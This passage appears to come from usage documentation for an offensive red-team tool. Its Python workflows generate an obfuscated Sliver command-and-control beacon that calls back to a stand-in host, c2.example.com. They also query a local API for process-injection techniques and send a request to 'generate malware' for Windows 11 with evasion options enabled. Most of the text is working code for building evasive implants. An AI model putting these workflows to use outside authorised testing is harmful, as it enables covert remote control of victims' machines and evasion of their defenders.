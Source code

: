 ### Workflow 2: C2 Beacon with Obfuscation

```python
from c2_adapters import generate_sliver_beacon

# Generate beacon with full obfuscation
result = generate_sliver_beacon(
    listener_host="c2.example.com",
    listener_port=443,
    protocol="https",
    architecture="x64",
    techniques=[
        "NOCTIS-T124",  # API hashing
        "NOCTIS-T118",  # String encryption
        "NOCTIS-T201"   # GPU hiding
    ],
    obfuscate=True
)

if result.success:
    print(f"Beacon: {result.beacon_path}")
    print(f"OPSEC: {result.opsec_score}/10")
    print(f"Techniques: {result.techniques_applied}")
```

### Workflow 3: MITRE ATT&CK-Based Selection

```python
# Client requirement: "Test our detection for T1055 (Process Injection)"

# 1. Find all T1055 techniques
response = requests.get('http://localhost:8888/api/techniques', params={'mitre': 'T1055'})
t1055_techniques = response.json()['techniques']

print(f"Available T1055 techniques: {len(t1055_techniques)}")
for tech in t1055_techniques:
    print(f"  - {tech['technique_id']}: {tech['name']}")

# Output:
# Available T1055 techniques: 5
#   - NOCTIS-T118: Syscalls
#   - NOCTIS-T085: Veh
#   - NOCTIS-T119: Injection
#   ... etc

# 2. Generate malware using these techniques
technique_ids = [tech['technique_id'] for tech in t1055_techniques[:3]]
response = requests.post('http://localhost:8888/api/generate', json={
    'techniques': technique_ids,
    'target_os': 'Windows 11',
    'obfuscate': True
})

# 3. Report shows MITRE coverage
print(f"Testing MITRE ATT&CK TTP: T1055 (Process Injection)")
print(f"Techniques applied: {technique_ids}")
```
